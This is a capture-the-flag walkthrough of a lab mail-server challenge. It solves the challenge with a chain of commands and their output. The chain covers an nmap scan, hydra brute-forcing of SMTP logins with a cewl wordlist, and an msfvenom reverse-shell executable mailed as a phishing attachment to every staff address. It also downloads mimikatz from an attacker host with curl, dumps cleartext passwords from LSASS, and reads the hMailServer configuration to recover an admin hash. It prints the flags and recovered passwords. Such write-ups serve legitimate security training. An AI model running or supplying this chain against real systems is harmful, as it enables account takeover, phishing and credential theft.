


# You Got Mail

You are a penetration tester who has recently been requested to perform a security assessment for Brik. You are permitted to perform active assessments on `10.48.171.107` and strictly passive reconnaissance on [brownbrick.co](https://brownbrick.co/). The scope includes only the domain and IP provided and does not include other TLDs.

## Table of Contents

1. [Enumeration](#enumeration)
   - [Nmap Scan](#nmap-scan)
   - [Web Application Analysis](#web-application-analysis)
2. [Exploitation](#exploitation)
   - [Password Brute-forcing](#password-brute-forcing)
   - [Phishing and Reverse Shell](#phishing-and-reverse-shell)
3. [Post-Exploitation](#post-exploitation)
   - [Dumping Credentials](#dumping-credentials)
   - [hMailServer Analysis](#hmailserver-analysis)
4. [Conclusion](#conclusion)

---

## Enumeration

To begin, start the Virtual Machine by pressing the Start Machine button at the top of this task. You may access the machine using the `AttackBox` or your own connection. Please allow 3-4 minutes for it to fully boot up.

### Nmap Scan

Starting with an nmap scan, we can see that, apart from some of the usual Windows services, there are also mail-related services running.

```bash
# Nmap 7.99 scan initiated Thu May  7 21:31:27 2026 as: /usr/lib/nmap/nmap --privileged -vvv -p 25,110,135,139,143,445,587,3389,5985,47001,49664,49665,49667,49666,49668,49670,49673,49681 -4 -sCV -oN rust 10.48.171.107
Nmap scan report for 10.48.171.107
Host is up, received echo-reply ttl 126 (0.093s latency).
Scanned at 2026-05-07 21:31:28 EDT for 72s

PORT      STATE SERVICE       REASON          VERSION
25/tcp    open  smtp          syn-ack ttl 126 hMailServer smtpd
| smtp-commands: BRICK-MAIL, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
...
445/tcp   open  microsoft-ds? syn-ack ttl 126
587/tcp   open  smtp          syn-ack ttl 126 hMailServer smtpd
| smtp-commands: BRICK-MAIL, SIZE 20480000, AUTH LOGIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
3389/tcp  open  ms-wbt-server syn-ack ttl 126 Microsoft Terminal Services
...
5985/tcp  open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
...
Service Info: Host: BRICK-MAIL; OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Web Application Analysis

We're greeted with a static site on [brownbrick.co](https://brownbrick.co/).


When we check the mail server, we can see the Certificate:


In the **Our Team** section (`/menu.html`), we find several email addresses:


---

## Exploitation

### Password Brute-forcing

> [!IMPORTANT]
> Since we must strictly perform passive reconnaissance on `brownbrick.co`, we can generate a custom wordlist using `cewl` on the website and then test it against the discovered emails using `hydra`.

Create a custom password list:

```bash
cewl --lowercase https://brownbrick.co/ > passwords.txt
```

**Target Emails:**

- `oaurelius@brownbrick.co`
- `wrohit@brownbrick.co`
- `lhedvig@brownbrick.co`
- `tchikondi@brownbrick.co`
- `pcathrine@brownbrick.co`
- `fstamatis@brownbrick.co`

After creating the password file and saving the emails we can start our hydra attack on the smtp service which leads us to

> ```bash
> └─$ hydra -L emails -P password 10.49.157.132 smtp -s 587 -t 15
> ```

And we got this result :

```text
[587][smtp] host: 10.49.157.132   login: lhedvig@brownbrick.co   password: bricks
```

### Phishing and Reverse Shell

> [!NOTE]
> With access to one email account, we can send a phishing email with a malicious attachment to the other users to gain a reverse shell.

1. Generate a reverse shell executable with `msfvenom`:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<YOUR_IP> LPORT=4445 -f exe > getShell.exe
```

2. Send the phishing email to all users:

```bash
while read -r email; do
	sendemail -f "lhedvig@brownbrick.co" -t "$email" -u "Urgent" -m "test" -a getShell.exe -s 10.49.157.132:25 -xu "lhedvig@brownbrick.co" -xp "bricks"
done < emails
```

We can then see that all of our mails were sent successfully

```bash
May 13 09:49:10 kali sendemail[38335]: Email was sent successfully!
May 13 09:49:11 kali sendemail[38346]: Email was sent successfully!
May 13 09:49:12 kali sendemail[38347]: Email was sent successfully!
May 13 09:49:13 kali sendemail[38358]: Email was sent successfully!
May 13 09:49:14 kali sendemail[38369]: Email was sent successfully!
May 13 09:49:14 kali sendemail[38380]: Email was sent successfully!
```

We get a shell as `wrohit`:

```powershell
C:\Mail\Attachments>whoami
whoami
brick-mail\wrohit

C:\Mail\Attachments>type C:\Users\wrohit\Desktop\flag.txt
type C:\Users\wrohit\Desktop\flag.txt
THM{l1v1n_7h3_br1ck_l1f3}
```

Q. `User flag`

> `THM{l1v1n_7h3_br1ck_l1f3}`

Now we need to find the password for user `wrohit` so for this lets make use of [mimikatz.exe](https://github.com/ParrotSec/mimikatz) to get the pass in the system.

So we sent `mimikatz.exe` to `wrohit` user:

```bash
curl http://192.168.151.181:80/mimikatz.exe -o mimikatz.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 1323k  100 1323k    0     0   264k      0  0:00:05  0:00:05 --:--:--  279k
```

Lets get the password now

```shell
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords"
```

> [!NOTE] Note
>
> - **`privilege::debug`** – Grants Mimikatz the necessary debug rights to access LSASS (Local Security Authority Subsystem Service) memory[](https://github.com/jkordis/OSCP-Field-Guide/blob/main/Mimikatz.md)[](https://raw.githubusercontent.com/chryzsh/DarthSidious/master/privilege-escalation/mimikatz.md). This requires Administrator privileges.
> - **`sekurlsa::logonpasswords`** – Dumps all available credentials from LSASS memory, including:
>   - **Cleartext passwords** (when available in memory)
>   - **NTLM hashes**
>   - **Kerberos tickets** and credentials

```shell
Authentication Id : 0 ; 2181446 (00000000:00214946)
Session           : Batch from 0
User Name         : wrohit
Domain            : BRICK-MAIL
Logon Server      : BRICK-MAIL
Logon Time        : 5/13/2026 1:49:15 PM
SID               : S-1-5-21-1966530601-3185510712-10604624-1014
        msv :
         [00000003] Primary
         * Username : wrohit
         * Domain   : BRICK-MAIL
         * NTLM     : 8458995f1d0a4b0c107fb8e23362c814
         * SHA1     : ab5cc88336e18e54db987c44088757702d3a4c0f
        tspkg :
        wdigest :
         * Username : wrohit
         * Domain   : BRICK-MAIL
         * Password : superstar
        kerberos :
         * Username : wrohit
         * Domain   : BRICK-MAIL
         * Password : (null)
        ssp :
        credman :
```

Thus we can see the password for user `wrohit` in plain text

```password
Password : superstar
```

Q. What is the password of the user _wrohit_?

> `superstar`

Now onto the third question, with the help of given hint (_hMail stores passwords in MD5_) we go to the `hMail` directory to see what's in their.

> The default installation directory for `hMailServer` on Windows is **`C:\Program Files\hMailServer`** (or `C:\Program Files (x86)\hMailServer` on 32-bit systems).

thus we'll now check the `hMailServer` directory.

> `cd "C:\Program Files (x86)\hMailServer\`

```shell
PS C:\Program Files (x86)\hMailServer\Bin> type hMailServer.INI
type hMailServer.INI
[Directories]
ProgramFolder=C:\Program Files (x86)\hMailServer
DatabaseFolder=C:\Program Files (x86)\hMailServer\Database
DataFolder=C:\Program Files (x86)\hMailServer\Data
LogFolder=C:\Program Files (x86)\hMailServer\Logs
TempFolder=C:\Program Files (x86)\hMailServer\Temp
EventFolder=C:\Program Files (x86)\hMailServer\Events
[GUILanguages]
ValidLanguages=english,swedish
[Security]
AdministratorPassword=5f4dcc3b5aa765d61d8327deb882cf99
[Database]
Type=MSSQLCE
Username=
Password=47f104fa02185e821a83b2cfa56cf4ec
PasswordEncryption=1
Port=0
Server=
Database=hMailServer
Internal=1
```

To get this info easily you can run this command :

```shell
type "C:\Program Files (x86)\hMailServer\Bin\hMailServer.INI"
```

**Admin Pass**:
`AdministratorPassword=5f4dcc3b5aa765d61d8327deb882cf99`

Cleartext pass:


`password`

---

Solved!!
Happy Hacking 😉😁!
